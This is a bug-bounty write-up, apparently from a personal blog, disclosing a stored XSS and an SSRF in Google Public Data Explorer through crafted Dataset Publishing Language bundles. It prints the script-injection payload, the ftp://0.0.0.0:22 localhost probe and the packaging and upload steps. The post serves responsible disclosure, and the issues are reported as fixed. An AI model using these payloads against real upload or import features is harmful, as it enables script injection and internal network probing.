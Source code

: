 ```yaml
---
layout: post
title:  "Stored XSS, and SSRF in Google using the Dataset Publishing Language"
date:   2018-03-07 10:00:00
categories: dspl
---
```


> "Those who rule data will rule the entire world." - 孫正義

TLDR; Crafting **Dataset Publishing Language** bundles to get **stored XSS** in the context of **www.google.com**, and using the DSPL remote sources functionality to access local services (**SSRF**). 

The [Google Public Data Explorer](https://www.google.com/publicdata/directory) is a tool to make large datasets easy to explore and visualize. eg., Visualizing Health expenditure, World Bank data (% of government expenditure).
![Image](/assets/dspl/explorer.gif)

Dataset Publishing Language (DSPL) uses XML to describe the dataset metadata and uses CSV data files: eg., sample.zip

{% highlight xml %}
Archive:  sample.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      246  02-01-2018 13:19   countries.csv
      221  02-14-2011 17:13   country_slice.csv
     7812  03-04-2018 21:12   dataset.xml
      246  02-14-2011 17:13   gender_country_slice.csv
       28  01-29-2018 20:55   genders.csv
      200  02-14-2011 17:13   state_slice.csv
      300  01-29-2018 21:11   states.csv
---------                     -------
     9053                     7 files
{% endhighlight %}

The issue here was that Google Public Data Explorer would use some supplied metadata in the dataset archive without context aware encoding or validation. 

eg., using a sample dataset:
* __curl https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/dspl/tutorial1.0.zip -o sample.zip__
* __unzip sample.zip; rm sample.zip__

Modifying the metadata name value of dataset.xml. The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.
{% highlight xml %}
<info>
  <name>
    <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
  </name>
    <description>
      <value>Some very interesting statistics about countries</value>
    </description>
    <url>
      <value>http://google.com</value>
    </url>  
</info>
{% endhighlight %}

* __zip -r poc.dspl *__
* __Upload the dataset to Google Public Data Explorer, and share it publically.__

So anyone who viewed the shared dataset would execute an attackers arbitrary JavaScript in the context of the www.google.com domain. (eg., coinhive 🤔)

Short video showing how this worked before it was fixed. Allows stored XSS in the context of www.google.com using DSPL:
<p><iframe src="https://player.vimeo.com/video/258923005" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe></p>

Dataset Publishing Language also has functionality to allow data to be retrieved from [remote HTTP or FTP sources](https://developers.google.com/public-data/docs/cookbook#remote_data). This functionality allowed SSRF (server-side request forgery) to access localhost service resources (potentially also allows access to internal, non internet accessible systems/devices). eg., 

eg., contents of poc.dspl/dataset.xml
{% highlight xml %}
<table id="my_table">
  <column id="first" type="string"/>
  <column id="last" type="string"/>
  <data>
    <file format="csv" encoding="utf-8">ftp://0.0.0.0:22</file>
  </data>
</table>
{% endhighlight %}

Uploading this dataset would return return the response of the HTTP/FTP request in the resulting error condition responses. eg., 

![Image](/assets/dspl/ftp-tcp22.png)
In this example it shows the local SSH banner response which is a service that is not publically accessible.

This was fun to look into when I took some time off in January. Thanks to [@sirdarckcat](https://twitter.com/sirdarckcat) and the Google Security team for the great VRP! If anyone reads this and finds stuff that I missed, you should let me know. 😅  [@signalchaos](https://twitter.com/signalchaos)

Thanks for reading, 👋 

Disclosure timeline stuff:
* Jan 2018: Reported to Google
* Feb 2018: Verified that the reported issues were fixed
* Feb 2018: Rewarded $5,000 for Stored XSS
* Mar 2018: Rewarded $13,337 for SSRF